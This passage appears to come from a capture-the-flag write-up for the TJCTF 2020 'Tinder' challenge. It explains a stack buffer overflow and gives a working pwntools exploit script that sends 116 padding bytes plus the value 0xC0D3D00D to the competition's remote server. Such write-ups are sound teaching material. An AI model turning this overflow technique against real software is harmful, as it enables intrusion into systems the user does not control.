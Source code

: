   <img src="/images/CTF/TJCTF2020/tinder11.png"/>
</p>

So the payload, when asked about the bio, will be "A" * 116 + \x0D\xD0\xD3\xC0.

Implementing it with pwntools is fairly simple. 

```python
# RazviOverflow
# Python3
from pwn import *

payload = b"A" * 116 + p32(0xC0D3D00D)
filling = b"Razvi"

#binary = process("Tinder")
binary = remote("p1.tjctf.org", 8002)

print(binary.recv())
binary.sendline(filling)
print(binary.recv())
binary.sendline(filling)
print(binary.recv())
binary.sendline(filling)
print(binary.recv())
binary.sendline(payload)
print(binary.recvall())
```

<p align="center">
  <img src="/images/CTF/TJCTF2020/tinder12.png"/>
</p>
